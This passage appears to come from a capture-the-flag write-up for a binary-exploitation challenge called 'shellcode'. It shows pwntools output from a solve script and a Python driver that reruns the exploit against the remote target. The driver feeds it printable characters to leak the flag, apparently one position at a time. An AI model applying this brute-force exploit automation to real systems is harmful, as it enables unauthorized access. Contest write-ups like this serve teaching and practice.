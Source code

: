 ```
$ python3 solve.py
[*] '[REDACTED]/shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '[REDACTED]/shellcode': pid 764
0
[*] Switching to interactive mode

$ a
$ b
$ c
$ d
$ e
$ f
[*] Got EOF while reading in interactive
```

```
$ python3 solve.py
[*] '[REDACTED]/shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '[REDACTED]/shellcode': pid 772
1
[*] Switching to interactive mode

$ a
$ b
$ c
...
$ j
$ k
$ l
[*] Got EOF while reading in interactive
```

With this, we are ready to automate it on remote!

```python
from subprocess import Popen, PIPE
import time

fw = open('tmpout', 'wb')
fr = open('tmpout', 'rb')

for idx in range(40):
    p = Popen(
        ['python3', 'solve.py', 'REMOTE'],
        stdin=PIPE,
        stdout=fw,
        stderr=fw
    )
    p.stdin.write(f'{idx}\n'.encode())
    time.sleep(1)
    assert b'Done' in (tmp := fr.read()), tmp
    for i in range(48, 127):
        p.stdin.write(f'{chr(i)}\n'.encode())
        p.stdin.flush()
        time.sleep(0.1)
```